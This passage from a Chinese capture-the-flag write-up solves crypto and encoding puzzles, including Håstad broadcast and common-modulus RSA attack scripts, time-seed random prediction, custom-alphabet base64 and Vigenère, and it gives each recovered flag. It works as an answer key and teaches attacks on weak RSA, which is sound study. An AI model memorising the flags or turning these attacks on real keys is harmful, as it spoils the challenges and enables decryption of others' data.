16200944263352278316040095503540249310705602580329203494665614035841657418101517016718103326928336623132935178377208651067093136976383774189554806135146237406248538919915426183225265103769259990252162411307338473817114996409705345401251435268136647166395894099897737607312110866874944619080871831772376466376, 31551601425575677138046998360378916515711528548963089502535903329268089950335615563205720969393649713416910860593823506545030969355111753902391336139384464585775439245735448030993755229554555004154084649002801255396359097917380427525820249562148313977941413268787799534165652742114031759562268691233834820996, 25288164985739570635307839193110091356864302148147148153228604718807817833935053919412276187989509493755136905193728864674684139319708358686431424793278248263545370628718355096523088238513079652226028236137381367215156975121794485995030822902933639803569133458328681148758392333073624280222354763268512333515]
```
n和c很多，e很小，应该是低加密指数广播攻击，直接上脚本：
```py
import libnum
from gmpy2 import invert, gcd, iroot

def op(x):
    res = 1
    for i in x:
        res *= i
    return res

def CRT(m, a):
    assert (len(m) == len(a))
    M = op(m)
    sum = 0
    for m, a in zip(m, a):
        Mi = M // m
        ti = invert(Mi, m)
        sum += a * ti * Mi
    return sum % M
def GCRT(m, a):
    assert (len(m) == len(a))
    curm, cura = m[0], a[0]
    for m, a in zip(m[1:], a[1:]):
        d = gcd(curm, m)
        c = a - cura
        assert (c % d == 0)
        K = c // d * invert(curm // d, m // d)
        cura += curm * K
        curm = curm * m // d
    return cura % curm

e= 9
n=[71189786319102608575263218254922479901008514616376166401353025325668690465852130559783959409002115897148828732231478529655075366072137059589917001875303598680931962384468363842379833044123189276199264340224973914079447846845897807085694711541719515881377391200011269924562049643835131619086349617062034608799, 92503831027754984321994282254005318198418454777812045042619263533423066848097985191386666241913483806726751133691867010696758828674382946375162423033994046273252417389169779506788545647848951018539441971140081528915876529645525880324658212147388232683347292192795975558548712504744297104487514691170935149949, 100993952830138414466948640139083231443558390127247779484027818354177479632421980458019929149817002579508423291678953554090956334137167905685261724759487245658147039684536216616744746196651390112540237050493468689520465897258378216693418610879245129435268327315158194612110422630337395790254881602124839071919, 59138293747457431012165762343997972673625934330232909935732464725128776212729547237438509546925172847581735769773563840639187946741161318153031173864953372796950422229629824699580131369991913883136821374596762214064774480548532035315344368010507644630655604478651898097886873485265848973185431559958627423847, 66827868958054485359731420968595906328820823695638132426084478524423658597714990545142120448668257273436546456116147999073797943388584861050133103137697812149742551913704341990467090049650721713913812069904136198912314243175309387952328961054617877059134151915723594900209641163321839502908705301293546584147, 120940513339890268554625391482989102665030083707530690312336379356969219966820079510946652021721814016286307318930536030308296265425674637215009052078834615196224917417698019787514831973471113022781129000531459800329018133248426080717653298100515701379374786486337920294380753805825328119757649844054966712377, 72186594495190221129349814154999705524005203343018940547856004977368023856950836974465616291478257156860734574686154136925776069045232149725101769594505766718123155028300703627531567850035682448632166309129911061492630709698934310123778699316856399909549674138453085885820110724923723830686564968967391721281, 69105037583161467265649176715175579387938714721653281201847973223975467813529036844308693237404592381480367515044829190066606146105800243199497182114398931410844901178842049915914390117503986044951461783780327749665912369177733246873697481544777183820939967036346862056795919812693669387731294595126647751951, 76194219445824867986050004226602973283400885106636660263597964027139613163638212828932901192009131346530898961165310615466747046710743013409318156266326090650584190382130795884514074647833949281109675170830565650006906028402714868781834693473191228256626654011772428115359653448111208831188721505467497494581]
c= [62580922178008480377006528793506649089253164524883696044759651305970802215270721223149734532870729533611357047595181907404222690394917605617029675103788705320032707977225447998111744887898039756375876685711148857676502670812333076878964148863713993853526715855758799502735753454247721711366497722251078739585, 46186240819076690248235492196228128599822002268014359444368898414937734806009161030424589993541799877081745454934484263188270879142125136786221625234555265815513136730416539407710862948861531339065039071959576035606192732936477944770308784472646015244527805057990939765708793705044236665364664490419874206900, 85756449024868529058704599481168414715291172247059370174556127800630896693021701121075838517372920466708826412897794900729896389468152213884232173410022054605870785910461728567377769960823103334874807744107855490558726013068890632637193410610478514663078901021307258078678427928255699031215654693270240640198, 14388767329946097216670270960679686032536707277732968784379505904021622612991917314721678940833050736745004078559116326396233622519356703639737886289595860359630019239654690312132039876082685046329079266785042428947147658321799501605837784127004536996628492065409017175037161261039765340032473048737319069656, 1143736792108232890306863524988028098730927600066491485326214420279375304665896453544100447027809433141790331191324806205845009336228331138326163746853197990596700523328423791764843694671580875538251166864957646807184041817863314204516355683663859246677105132100377322669627893863885482167305919925159944839, 2978800921927631161807562509445310353414810029862911925227583943849942080514132963605492727604495513988707849133045851539412276254555228149742924149242124724864770049898278052042163392380895275970574317984638058768854065506927848951716677514095183559625442889028813635385408810698294574175092159389388091981, 16200944263352278316040095503540249310705602580329203494665614035841657418101517016718103326928336623132935178377208651067093136976383774189554806135146237406248538919915426183225265103769259990252162411307338473817114996409705345401251435268136647166395894099897737607312110866874944619080871831772376466376, 31551601425575677138046998360378916515711528548963089502535903329268089950335615563205720969393649713416910860593823506545030969355111753902391336139384464585775439245735448030993755229554555004154084649002801255396359097917380427525820249562148313977941413268787799534165652742114031759562268691233834820996, 25288164985739570635307839193110091356864302148147148153228604718807817833935053919412276187989509493755136905193728864674684139319708358686431424793278248263545370628718355096523088238513079652226028236137381367215156975121794485995030822902933639803569133458328681148758392333073624280222354763268512333515]
m = CRT(n, c)
m1 = iroot(m, e)  # 开e次方
print(m1)
print(libnum.n2s(int(m1[0])))
```
得到flag{H0w_Fun_13_HAstads_broadca5t_AtTack!}，提交去掉感叹号
## 8、CyberChef
题目打开是一个html文件，打开

是个cyberchef加密过程，base64，再rot13，反过来解就行了，注意rot13的Amount值为10时出flag

flag{dcb77abc-6445-4840-bbca-5252f60735e7}
## 9、rand
题目代码：
```py
import random
import time

random.seed(int(time.time()))
print(time.time())
print(int(time.time()))
rand = random.randint(0,10**30)
flag = 0
en = flag ^ rand

print(en)

# Dec 10 2022 10:30:50
# Python 3.7.2 (tags/v3.7.2:9a3ffc0492, Dec 23 2018, 23:09:28) [MSC v.1916 64 bit (AMD64)] on win32
# 881235169941718345882433419366
```
分析一下，逻辑很简单就是异或，但是rand需要好好分析。
rand是先根据一个时间生成一个随机种子，然后random.randint(0,10**30)生产了rand，时间已经给出，那就可以解了
解题脚本：
```py
import time
import random
dt="2022-12-10 10:30:50"
timeArray = time.strptime(dt,"%Y-%m-%d %H:%M:%S")
timestamp = time.mktime (timeArray)
print (timestamp)
1670639450.0
random.seed(int (timestamp))
rand  = random.randint (0,10**30)
print(881235169941718345882433419366^rand)
```
flag{659480394773869512498389750739}
## 10、rsa
题目代码：
```py
#!python3.9
from Crypto.Util.number import *
from flag import flag
import gmpy2
import random

random.seed(123456)

m = bytes_to_long(flag)
e1 = random.randint(100000000, 999999999)
e2 = 65537
n = 7265521127830448713067411832186939510560957540642195787738901620268897564963900603849624938868472135068795683478994264434459545615489055678687748127470957
c1 = pow(m, e1, n)
c2 = pow(m, e2, n)
print(c1)
print(c2)

# 3315026215410356401822612597933850774333471554653501609476726308255829187036771889305156951657972976515685121382853979526632479380900600042319433533497363
# 1188105647021006315444157379624581671965264301631019818847700108837497109352704297426176854648450245702004723738154094931880004264638539450721642553435120
```
判断应该是共模攻击，但是不知道e1没给出，但可以算出来因为random.seed(123456)，然后e1 = random.randint(100000000, 999999999)生成了e1
所以修改脚本：
```py
import gmpy2
import libnum
import random

random.seed(123456)
e1 = random.randint(100000000, 999999999)# 求e1

n= 7265521127830448713067411832186939510560957540642195787738901620268897564963900603849624938868472135068795683478994264434459545615489055678687748127470957
c1= 3315026215410356401822612597933850774333471554653501609476726308255829187036771889305156951657972976515685121382853979526632479380900600042319433533497363
e2= 65537
c2= 1188105647021006315444157379624581671965264301631019818847700108837497109352704297426176854648450245702004723738154094931880004264638539450721642553435120

#共模攻击
#共模攻击函数
def rsa_gong_N_def(e1,e2,c1,c2,n):
    e1, e2, c1, c2, n=int(e1),int(e2),int(c1),int(c2),int(n)
    s = gmpy2.gcdext(e1, e2)
    s1 = s[1]
    s2 = s[2]
    if s1 < 0:
        s1 = - s1
        c1 = gmpy2.invert(c1, n)
    elif s2 < 0:
        s2 = - s2
        c2 = gmpy2.invert(c2, n)
    m = (pow(c1,s1,n) * pow(c2 ,s2 ,n)) % n
    return int(m)


m = rsa_gong_N_def(e1,e2,c1,c2,n)
# print(m)
print(libnum.n2s(int(m)))
```
flag{359a1693-7bce-4fbc-87fa-111cdffaa0e8}
## 11、Sign_in_passwd
打开文件
```
j2rXjx8yjd=YRZWyTIuwRdbyQdbqR3R9iZmsScutj2iqj3/tidj1jd=D
GHI3KLMNJOPQRSTUb%3DcdefghijklmnopWXYZ%2F12%2B406789VaqrstuvwxyzABCDEF5
```
应该是url编码，解一下，得到：
```
j2rXjx8yjd=YRZWyTIuwRdbyQdbqR3R9iZmsScutj2iqj3/tidj1jd=D
GHI3KLMNJOPQRSTUb=cdefghijklmnopWXYZ/12+406789VaqrstuvwxyzABCDEF5
```
看到第二行包含了所有的字符，应该是改变编码表的base64编码，就是base64换表，第一行时密文，第二行的编码字符，扔cyberchef解：

flag{8e4b2888-6148-4003-b725-3ff0d93a6ee4}
## 12、电码
题目提示：

```
11612475635718278010663880107181
```
啥玩意，不会，百度了一下应该是中国电码，[中国电码解码链接](https://dianma.bmcx.com/)

```
夺旗赛怎么这么难
```
md5一下就是flag
flag{671475769f1655c6f7d1608d62ce243a}
## 13、维**亚的秘密
打开文件，一个加密的压缩包，一个txt文档，打开txt：
```
Tigrf crf oongnuu io nigg wign zqu nkst uongoog sp oudj tict zqu kwsu yaov tp ridm tigm gton aovt dsganu aof hvi tigm gqr sgam! Frfcm xjau aov yaov tp frfcm;hq wigrf aov yaov tp io;cg wict zqu xcnu vo cg,bfeavue zqu icvf qnma oog ljhe bpd ppe djaoee uq dp clm vhf vhjpgt aov yaov tp fo;lgy ju zigsikmjoa
```
根据提示维吉尼亚解码，我的工具都解不出，上个网站吧[vigenere-solver](https://www.guballa.de/vigenere-solver)
解出：
```
There are moments in life when you miss someone so much that you just want to pick them from your dreams and hug them for real! Dream what you want to dream;go where you want to go;be what you want to be,because you have only one life and one chance to do all the things you want to do;key is zheshimima
```
发现压缩包密码”zheshimima“，打开得到flag.txt
flag{5a851c56-75a3-4899-911b-0bb48bc31a52}

## 14、normal
打开文件有点懵逼，确实没见过这个编码。

老师讲了才知道，这是短OoK！编码。。。。
上解码链接[传送门](https://tool.bugku.com/brainfuck/)
解出：
```
\u0065\u0047\u006c\u0069\u005a\u0057\u0067\u0074\u0061\u0032\u0056\u006a\u0062\u0032\u0063\u0074\u0064\u006e\u006c\u0032\u0059\u0057\u0073\u0074\u0062\u0057\u006c\u0073\u0061\u0057\u0077\u0074\u0062\u0058\u006c\u0074\u005a\u0057\u0059\u0074\u0059\u006e\u0056\u0077\u0059\u0057\u0067\u0074\u0065\u006d\u0056\u0077\u0061\u0057\u0067\u0074\u0061\u0047\u0046\u0069\u0065\u0057\u0073\u0074\u0062\u0047\u0056\u0073\u0064\u0057\u0051\u0074\u0059\u0032\u0039\u0073\u0064\u0057\u0073\u0074\u0062\u0048\u006c\u0030\u0062\u0032\u0077\u0074\u0061\u0033\u0056\u0074\u0061\u0057\u0067\u0074\u0062\u0057\u0039\u0036\u0064\u0058\u0067\u003d
```
unicode解码
```
eGliZWgta2Vjb2ctdnl2YWstbWlsaWwtbXltZWYtYnVwYWgtemVwaWgtaGFieWstbGVsdWQtY29sdWstbHl0b2wta3VtaWgtbW96dXg=
```
base64解码：
```
xibeh-kecog-vyvak-milil-mymef-bupah-zepih-habyk-lelud-coluk-lytol-kumih-mozux
```
这个又没见过，根据题目提示是气泡码，上破解链接[传送门](http://www.hiencode.com/bubble.html)
```
AVFN{h_xa0j_jU@g_!_guvaX}
```
凯撒解码
```
NISA{u_kn0w_wH@t_!_thinK}
```
开头替换为flag
flag{u_kn0w_wH@t_!_thinK}

## 15、basics
套娃解码，打开题目是二进制
```
01010101 01101000 00101101 01101111 01101000 00101100 00100000 01101100 01101111 01101111 01101011 01110011 00100000 01101100 01101001 01101011 01100101 00100000 01110111 01100101 00100000 01101000 01100001 01110110 01100101 00100000 01100001 01101110 01101111 01110100 01101000 01100101 01110010 00100000 01100010 01101100 01101111 01100011 01101011 00100000 01101111 01100110 00100000 01110100 01100101 01111000 01110100 00101100 00100000 01110111 01101001 01110100 01101000 00100000 01110011 01101111 01101101 01100101 00100000 01110011 01101111 01110010 01110100 00100000 01101111 01100110 00100000 01110011 01110000 01100101 01100011 01101001 01100001 01101100 00100000 01100101 01101110 01100011 01101111 01100100 01101001 01101110 01100111 00101110 00100000 01000011 01100001 01101110 00100000 01111001 01101111 01110101 00100000 01100110 01101001 01100111 01110101 01110010 01100101 00100000 01101111 01110101 01110100 00100000 01110111 01101000 01100001 01110100 00100000 01110100 01101000 01101001 01110011 00100000 01100101 01101110 01100011 01101111 01100100 01101001 01101110 01100111 00100000 01101001 01110011 00111111 00100000 00101000 01101000 01101001 01101110 01110100 00111010 00100000 01101001 01100110 00100000 01111001 01101111 01110101 00100000 01101100 01101111 01101111 01101011 00100000 01100011 01100001 01110010 01100101 01100110 01110101 01101100 01101100 01111001 00101100 00100000 01111001 01101111 01110101 00100111 01101100 01101100 00100000 01101110 01101111 01110100 01101001 01100011 01100101 00100000 01110100 01101000 01100001 01110100 00100000 01110100 01101000 01100101 01110010 01100101 00100000 01101111 01101110 01101100 01111001 00100000 01100011 01101000 01100001 01110010 01100001 01100011 01110100 01100101 01110010 01110011 00100000 01110000 01110010 01100101 01110011 01100101 01101110 01110100 00100000 01100001 01110010 01100101 00100000 01000001 00101101 01011010 00101100 00100000 01100001 00101101 01111010 00101100 00100000 00110000 00101101 00111001 00101100 00100000 01100001 01101110 01100100 00100000 01110011 01101111 01101101 01100101 01110100 01101001 01101101 01100101 01110011 00100000 00101111 00100000 01100001 01101110 01100100 00100000 00101011 00101110 00100000 01010011 01100101 01100101 00100000 01101001 01100110 00100000 01111001 01101111 01110101 00100000 01100011 01100001 01101110 00100000 01100110 01101001 01101110 01100100 00100000 01100001 01101110 00100000 01100101 01101110 01100011 01101111 01100100 01101001 01101110 01100111 00100000 01110100 01101000 01100001 01110100 00100000 01101100 01101111 01101111 01101011 01110011 00100000 01101100 01101001 01101011 01100101 00100000 01110100 01101000 01101001 01110011 00100000 01101111 01101110 01100101 00101110 00101001 00001010 01010100 01101101 01010110 00110011 01001001 01000111 01001110 01101111 01011001 01010111 01111000 01110011 01011010 01010111 00110101 01101110 01011010 01010011 01000101 01100111 01010001 00110010 01000110 01110101 01001001 01001000 01101100 01110110 01100100 01010011 01000010 01101101 01100001 01010111 01100100 00110001 01100011 01101101 01010101 01100111 01100010 00110011 01010110 00110000 01001001 01001000 01100100 01101111 01011001 01011000 01010001 01101110 01100011 01111001 01000010 01101110 01100010 00110010 01101100 01110101 01011010 01111001 01000010 01110110 01100010 01101001 01000010 01101111 01011010 01011000 01001010 01101100 01010000 01111001 01000010 01001010 01100100 01000011 01000010 01110011 01100010 00110010 00111001 01110010 01100011 01111001 01000010 01110011 01100001 01010111 01110100 01101100 01001001 01001000 01010010 01101111 01011010 01010011 01000010 01110011 01011010 01011000 01010010 00110000 01011010 01011000 01001010 01111010 01001001 01000111 01000110 01111001 01011010 01010011 01000010 01111010 01100001 01000111 01101100 01101101 01100100 01000111 01010110 01101011 01001001 01000111 01001010 00110101 01001001 01001000 01001110 01110110 01100010 01010111 01010101 01100111 01011001 00110010 00111001 01110101 01100011 00110011 01010010 01101000 01100010 01101110 01010001 01110101 01001001 01000011 01101000 01101111 01100001 01010111 00110101 00110000 01001111 01101001 01000010 00110101 01100010 00110011 01010101 01100111 01100010 01010111 01101100 01101110 01100001 01001000 01010001 01100111 01100100 00110010 01000110 01110101 01100100 01000011 01000010 00110000 01100010 01111001 01000010 01111010 01100100 01000111 01000110 01111001 01100100 01000011 01000010 01110011 01100010 00110010 00111001 01110010 01100001 01010111 00110101 01101110 01001001 01001000 01010110 01110111 01001001 01000110 01001010 01110110 01100010 01010111 01000110 01110101 01001001 01001000 01000010 01101100 01100010 00110011 01000010 01110011 01011010 01010011 01101011 01110101 01000011 01101101 01110100 00110010 01011001 01101110 01001110 01111000 01100011 01101101 01010001 01110011 01001001 01000111 01101100 00110101 01011010 01010011 01100100 01101001 01100010 01111001 01000010 01110010 01100100 01101110 01100100 00110101 01011001 00110010 01010001 01100111 01011010 01001000 01001010 01110110 01011001 01101101 00111000 01101000 01001001 01000110 01101000 00110101 01011010 01111001 01000010 01110111 01100101 01010111 01001001 01100111 01011010 01001000 01001010 01110110 01001001 01001000 01000010 01111010 01100101 01000111 01110100 00110010 01001001 01000011 01101000 01110010 01100101 01000111 00110100 01100111 01100100 00110010 01110100 01110000 01100010 01000111 00111000 01100111 01011010 01001000 01001010 01110110 01001001 01001000 01001010 01110010 01011001 01101101 00110101 01110110 01011001 00110010 01010001 01110101 01001100 01101001 00110100 01110000 01001001 01001000 01110000 01110010 01011001 01101101 01010001 00110110 01001001 01000111 01110011 01100111 01011001 00110010 01010110 01110011 01011001 00110010 01010010 01111010 01011010 01000111 01010110 01101011 01100011 00110011 01101100 00110100 01001001 01000111 00110001 01111010 01100101 01101110 01001010 01110110 01011001 01101001 00110100 01100111 01010101 00110011 01100111 01100111 01011010 01001000 01001010 01110110 01001001 01001000 01000010 00110101 01100100 01101110 01011010 00110101 01011010 00110011 01001110 00110100 01100011 01010011 01000010 01101011 01100010 00110010 01101000 01101011 01001100 01000011 01000010 01010100 01001010 00110010 01011010 01110110 01001001 01000111 01010010 01110010 01100100 01010111 00111001 00110100 01001001 01001000 01100100 01110000 01001001 01001000 01100100 01110110 01011001 00110010 01001110 01110010 01100011 01010111 00111000 01100111 01100001 00110011 01101000 01110101 01001001 01000111 01001010 01110110 01100101 01101110 01011010 01110010 01100010 01010111 00111001 01110101 01001001 01000111 00111001 01101101 01100010 00110010 01001010 01110000 01001001 01000111 01110100 00110010 01100101 01101110 01001010 01110010 01100010 01000111 00111001 01101011 01100011 00110010 00110000 01100111 01100010 01011000 01001010 01110010 01011001 01101101 01110100 01110100 01011010 01000111 00111001 01101001 01001001 01000111 01100100 01111010 01011010 01001000 01001001 01100111 01100001 01111001 01000010 01110100 01100101 01010111 01001010 01101001 01100010 00110010 01001110 00110110 01100101 01011000 01101000 01110101 01100010 00110011 01101000 01110100 01100010 01111001 01000010 01101011 01100101 01010011 01000010 01110010 01001001 01000111 00110101 01111010 01100011 01001000 01000010 01110110 01011001 01101101 00111001 00110100 01011010 01000011 01000010 01110100 01100011 01101101 01110100 01101001 01100001 00110010 00110001 01101011 01100010 00110010 01001001 01100111 01001100 01010011 01000010 00110001 01100101 01001000 01101100 01101110 01100101 01000011 01000010 01110010 01011001 01111001 01000010 01110010 01001001 01000111 01001110 01101100 01100010 01000111 01001110 01101011 01100011 00110010 01010010 01101100 01011010 01001000 01001110 00110101 01100101 01000011 01000010 01110100 01100011 00110011 01110000 01111001 01100010 00110010 01001001 01110101 01001001 01000101 00110001 01110010 01100101 01000011 01000010 01110000 01100101 01010111 01010101 01100111 01100011 01001000 01001110 00110100 01100010 01101001 01000010 01101011 01100011 01101101 00111000 01100111 01100011 01001000 01001110 00110100 01100001 00110011 01011001 01100111 01100011 01001000 01011010 01110010 01100011 01010100 00111000 01100111 01100011 01101110 01001110 00110100 01011010 01000100 01101111 01100111 01010010 00110010 00111000 01100111 01100100 01011000 01101000 00110101 01011010 01111001 01000010 01101011 01100011 01101101 01110100 01101011 01001001 01000111 01010010 01111001 01100010 01111001 01000010 01110111 01100100 01101101 01110100 01111000 01001001 01001000 01001110 01101010 01001001 01001000 01000110 00110101 01100011 00110011 01101000 01111000 01001001 01000111 01010010 00110101 01001001 01000111 01111000 01110110 01001001 01001000 01101100 01110111 01001001 01000111 01010010 01111001 01100010 01111001 01000010 01110111 01100101 01010111 01001010 00110011 01100001 00110010 01010001 01100111 01011010 01010111 01010010 01110111 01100100 01101101 01110100 01111000 01100101 01111001 00110100 01110101 01001100 01101110 00110000 01100111 01001100 01010011 01000010 01101110 01100011 01101110 01001110 01110100 01100011 01101001 01000010 00110011 01100010 00110010 01110100 00110100 01011001 01111001 01000010 01101011 01100011 01101101 01110100 01101011 01001001 01001000 01001110 01110111 01001001 01000111 01101100 00110101 01011010 01010011 01000010 01101010 01100010 00110010 00111000 01100111 01011010 01001000 01001010 01110010 01011010 01000011 01000010 00110110 01100001 00110010 01010010 01101011 01100010 00110010 01001010 00110100 01001100 01000011 01000010 01110000 01100101 01010111 01010101 01100111 01100100 01011000 01101000 00110101 01011010 01111001 01000010 01101110 01100011 01101101 01110100 01101011 01001001 01000111 01010010 01111001 01100010 01111001 01000010 01110100 01100101 01010111 01001010 01101001 01100010 00110010 01001110 00110110 01100101 01011000 01101000 01110101 01100010 00110011 01101000 01110100 01100010 00110010 01001101 01100111 01100011 01001000 01101100 01101001 01001001 01000111 01010101 01110011 01001001 01000111 01010001 01110011 01001001 01001000 01000001 01110011 01001001 01001000 01011001 01100111 01100001 01111001 01110111 01100111 01100001 00110011 01101000 01110101 01001001 01001000 01000101 01100111 01100001 00110010 01001010 01110110 01001100 01101001 01000010 01001010 01100101 01010111 01010101 01100111 01100010 01010111 01110100 00110100 01001001 01001000 01110000 01101001 01100101 01010111 01111000 01110010 01100010 01001000 01011010 01110000 01001001 01000111 01100100 00110101 01011001 01101110 01010101 01100111 01100101 01010111 01010110 01101011 01001001 01000111 01010010 01111001 01100010 01111001 01000010 01101001 01100010 00110011 01100100 01110010 01100011 00110011 01101000 01111010 01100101 01001000 01000101 01100111 01100010 01011000 01001010 01110010 01011001 01101101 01110100 01110100 01011010 01000111 00111001 01101001 01011001 01111001 01000010 01110011 01100001 01010011 01000010 01101001 01100010 00110011 01110000 00110010 01100001 00110010 00110001 01111010 01100101 01001000 01000101 01100111 01011010 01001000 01001010 01110110 01100100 01111001 01000010 01110010 01100101 01000111 00110100 01100111 01100011 00110011 01101000 01110111 01100010 00110010 01001010 01101001 01100011 00110011 01101000 01111000 01001001 01000111 00110001 00110101 01100100 00110011 01100100 00110101 01100101 01000011 01000010 01101110 01100101 01010111 01001010 01110101 01011001 01111001 01000010 01111010 01100101 01000011 01000010 01101011 01100011 01101101 00111000 01100111 01010100 00110011 01101000 01111000 01100100 01101110 01001110 01101010 01100011 01101001 01000010 00110010 01100001 00110011 01101000 01111000 01011010 01010111 01110100 01111000 01100010 01111001 00110100 01100111 01010011 00110011 01101000 00110101 01011010 01001000 01001010 01110110 01011001 01101001 01000010 01111000 01011001 01101101 00111001 01110010 01011010 01000011 01000010 00110011 01100010 00110010 01010010 01111001 01100101 01010111 00110100 01100111 01100011 00110010 01001101 01100111 01011010 01001000 01101011 01100111 01011010 01010111 01001110 01110110 01001001 01001000 01000010 01101001 01100010 00110010 01000110 01101100 01100010 00110011 01101000 01110100 01100001 01010011 01000010 01110010 01100101 01000111 01110100 00110010 01100001 01010111 01001110 01111010 01011001 01111010 01101111 01100111 01011010 00110010 00111000 01100111 01100100 01011000 01101000 00110101 01011010 01111001 01000010 01101011 01100011 01101101 01110100 01101011 01001001 01000011 01100100 01110110 01001010 01111001 01000010 01101010 01100011 01101110 01101100 01101110 01011001 01111001 01000010 01101100 01100101 01101001 01000010 00110011 01100101 01010111 01001110 01101011 01001001 01001000 01101100 01110111 01011010 01000111 00111001 00110100 01001001 01001000 01001110 00110100 01001001 01000111 01010010 01111001 01100010 01111001 01000010 01110010 01100100 01101110 01110000 01111001 01100001 00110010 01111000 01110110 01011010 01000011 01110111 01100111 01011001 00110011 01101011 01100111 01011010 01001000 01001010 01110010 01011010 01000011 01100100 01101010 01001001 01001000 01110000 01101001 01100101 01010111 01111000 01110010 01100010 01001000 01011010 01110000 01001001 01000111 01010010 01111001 01100010 01111001 01000010 00110011 01100101 01010111 01001110 01101011 01001001 01000111 00110001 00110101 01100100 00110011 01100100 00110101 01100101 01000011 01000010 01110100 01100011 01101101 01110100 01101001 01100001 00110010 00110001 01101011 01100010 00110010 01001001 01100111 01100011 00110011 01100111 01100111 01011010 01001000 01001010 01110110 01001001 01000111 01010010 01110110 01100001 01000111 01010001 01110011 01001001 01001000 01000010 00110101 01100100 01101110 01011010 00110101 01011010 00110010 00111001 01110101 01001001 01000111 01111000 01110000 01001001 01000011 01100100 01101011 01001010 01111001 01110111 01100111 01100001 00110011 01101000 01110101 01001001 01000111 01001110 00110101 01001001 01001000 01101100 00110100 01001100 01101001 01000010 01011010 01100101 01000111 00110001 01110110 01001001 01000111 01101100 00110101 01011010 01010011 01000010 00110001 01100101 01001000 01101100 01101110 01001001 01000111 01110011 01100111 01100011 01000111 00111001 01101110 01001001 01000111 00110001 01111001 01100001 00110010 01001010 01110010 01100010 01010111 01010010 01110110 01011001 01101101 01001101 01110011 01001001 01000111 01101100 00110101 01011010 01010011 01000010 01110100 01100001 00110011 01100111 01100111 01100011 00110011 01101000 01110111 01100010 00110010 01001001 01100111 01011010 01001000 01001010 01110110 01001001 01000111 01001010 01110110 01011001 00110010 01010001 01100111 01100101 01011000 01000001 01100111 01011010 01001000 01001010 01110110 01001001 01000111 01100100 00110101 01011001 01101101 00110101 01101010 01001001 01000111 01111000 01110010 01011001 00110010 00111001 01110101 01001001 01001000 01101100 00110100 01001001 01000111 00110001 00110101 01100100 00110011 01100100 00110101 01100101 01000011 01000010 01101110 01100101 01010111 01001010 01110101 01011001 01111001 01000010 01101011 01100011 01101101 01110100 01101011 01001001 01000111 01001110 01111001 01100101 01010111 01100011 01100111 01011010 01011000 01101111 01100111 01100011 00110011 01100111 01100111 01011010 01001000 01001010 01110110 01001001 01000101 00111001 00110100 01100011 01011000 01011010 01111010 01011001 00110011 01001001 01100111 01100100 01101101 01110100 00110100 01100011 01010111 01010110 01110010 01100011 01010111 00111000 01110101 01000011 01101110 01001010 01101110 01100001 01000111 00110101 00110100 01100011 00110010 01010010 01101101 01100101 01011000 01001110 01101011 01100100 01000111 01100100 01101111 01100100 01010011 01000101 01100111 01100011 01010111 01100100 01101101 01001001 01000111 01101100 01111010 01011001 01010111 01110011 01100111 01011001 00110011 01010010 01101111 01100100 01001000 01010110 01110000 01100001 00110010 01010101 01100111 01011010 01000111 01101100 01110010 01001001 01001000 01110000 01110010 01100010 01101110 01010010 01101111 01100001 01000111 01110100 00110100 01001001 01001000 01001010 00110100 01100011 01010111 01111000 01101011 01011010 00110010 00110101 00110100 01100011 00110010 01111000 01110000 01100011 01010011 01000010 01111001 01100001 01011000 01001110 00110101 01100101 01010111 01110100 01101111 01100010 01101101 01110011 01110101 01001001 01000111 01101100 01110010 01100101 01000111 01110011 01100111 01100100 01001000 01010101 01100111 01100011 01111001 01000010 01101010 01100101 01011000 01001110 01110101 01001001 01000111 01001110 01101110 01100101 01000011 01000010 01111010 01100101 01011000 01101011 01100111 01100011 01010111 01100100 01101101 01100101 01000011 01000010 01110000 01100011 00110011 01101000 01101100 01001001 01000111 01110100 01101010 01011001 00110010 01100100 00110100 01011010 01001000 01010101 00110110 01001001 01000111 01011010 01101011 01011001 00110011 01101100 01111010 01100010 01101110 01110100 01101111 01001101 01001000 01011010 01100110 01011010 01000111 01101011 00110000 01011010 01001000 01010110 01100110 01100100 01101101 01101011 00110000 01011010 01000110 00111001 00110000 01011000 00110011 01001001 00110000 01100101 01011000 01101100 01100110 01100011 01101110 01101000 01111000 01100010 01000111 01010001 01110111 01100110 01010011 00110100 01100111 01100011 01010111 01100100 01101101 01001001 01001000 01011010 00110000 01100101 01011000 01101011 01100111 01011001 00110011 01010010 01101111 01011010 01010011 01000010 01101011 01100001 01011000 01001110 01101011 01001001 01001000 01001101 01100111 01100101 01010111 01100100 01101011 01001001 01000111 01100100 01101010 01001001 01001000 01001010 00110100 01100011 01010111 01111000 01101011 01011010 00110010 00110101 00110100 01100011 00110010 01111000 01110000 01100011 01010011 01000010 00110000 01100100 01010011 01000010 01110111 01011010 01101110 01010110 01101011 01001001 01001000 01110000 01101101 01100100 01001000 01101100 01101100 01100100 01000111 01101000 01110101 01001001 01000111 01100100 01101010 01011001 01111001 01000010 01101011 01100001 01011000 01010010 00110001 01001001 01001000 01010110 01101110 01100101 01000111 01010001 01100111 01011010 00110010 01001101 01100111 01100101 01101110 01001110 00110001 01100100 01001000 01001001 01100111 01011001 01101101 01101000 01101110 01100100 01101110 01101100 01110010 01011010 01010111 00110101 01110010 01001100 01000011 01000010 01111010 01100001 01000111 01010101 01100111 01100100 01000111 01010001 01100111 01100101 01000111 01110100 01111010 01100101 01011000 01101100 01111000 01001001 01001000 01010010 00110001 01001001 01000111 01101000 01101110 01011010 01000011 01000010 00110001 01011010 01111001 01000010 00110110 01100011 00110010 01010101 01100111 01100011 00110010 01001110 01101011 01100001 00110011 01100111 01100111 01100011 00110011 01101100 00110101 01001100 01101001 01000010 01110000 01011010 00110010 01111000 01110010 01001001 01001000 01000110 01101110 01011010 01101001 01000010 01110010 01100001 01001000 01000010 01101110 01100011 01010111 01110100 01101100 01001001 01000111 01010010 01110000 01100001 01111001 01000010 01111001 01100001 01011000 01001110 00110101 01100101 01010111 01110100 01101111 01100010 01101101 01110011 01101000
```
解二进制：
```
Uh-oh, looks like we have another block of text, with some sort of special encoding. Can you figure out what this encoding is? (hint: if you look carefully, you'll notice that there only characters present are A-Z, a-z, 0-9, and sometimes / and +. See if you can find an encoding that looks like this one.)
